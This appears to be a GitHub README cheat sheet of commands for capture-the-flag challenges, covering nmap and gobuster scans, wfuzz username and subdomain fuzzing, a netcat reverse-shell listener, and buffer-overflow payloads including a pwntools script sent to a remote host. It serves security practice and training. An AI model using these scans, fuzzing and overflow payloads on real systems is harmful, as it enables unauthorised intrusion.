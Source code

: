 # ctf-cheatsheet
This repo comprises useful code bytes for solving common ctf tasks.

## linux privileges
##### get current user
```bash
whoami
```
##### check, what can be executed with root
```bash
sudo -l
```
## linux network
##### change hosts file
```bash
sudo nano /etc/hosts
```
##### listen for reverse shell exploits
```bash
nc -lvp 1234
```
##### portscan
###### nmap, initial scan
```bash
nmap -Pn -n -oN nmap/initial 10.10.10.10
```
###### nmap, target scan on port 20 and 80
```bash
nmap -Pn -n -p22,80 -sC -sV -oN nmap/targeted 10.10.10.10
```
##### scan for folders and files
###### gobuster, search for folders
```bash
gobuster dir -u domain.com -w /home/dir/wordlist.txt
```
###### gobuster, search for files (.txt / .php / etc)
```bash
gobuster dir -u domain.com -w /home/dir/wordlist.txt -x txt
```
##### scan for subdomains
1) add domain to hosts
2) run wfuzz (here: hide results with code 301)
```bash
wfuzz -c -w /home/path/subdomains.txt -u "http://domain.com" -H "Host: FUZZ.domain.com" -t 50 --hc 301
```
##### http GET/POST methods
###### curl GET with --data 
```bash
curl --get -d name=admin -d shoesize=12 http://example.com/
```
###### curl POST with --data 
```bash
curl -d name=admin -d shoesize=12 http://example.com/
```
###### wfuzz enumerate POST with --data
```bash
wfuzz -c -d "username=FUZZ&password=n00bsec" -w /usr/share/seclists/Usernames/Names/names.txt -u http://10.10.10.73/login.php
```
## buffer overflow
##### execute locally, string as text input
###### bash
```bash
run <<< $(python -c 'print(188*"\x41" + "\xe2\x91\x04\x08" + "\x43" * 4 + "\xef\xbe\xad\xde"+ "\x0d\xd0\xde\xc0" )')
```
##### execute remotely, string as text input
###### bash
```bash
echo $(python -c 'print(188*"\x41" + "\xe2\x91\x04\x08")') | nc 123.123.123.123 32123
```
###### pwntools
```bash
from socket import socket
from pwn import *
ip = "sub.domain.com"
port = 1234
ret = 0x080491e2
no = 0x32432342
para_1 = 0xdedebebe
para_2 = 0xc0c00d0d
payload_len = 200 + 20
payload = "A" * payload_len
payload += p32(ret)
payload += p32(no)
payload += p32(para_1)
payload += p32(para_2)
r = remote(ip, port)
r.recvline()
r.sendline(payload)
r.interactive()
```

## python packages
##### build python package
```bash
python3 setup.py sdist bdist_wheel
```

##### upload with twine
```bash
python3 -m twine upload --repository-url http://pypi.domain.com:8080 /home/path/dist/* --verbose
```
-> enter username and password

### good writeupts:
https://noobsec.net/hackthebox/htb-falafel-writeup-w-o-metasploit/
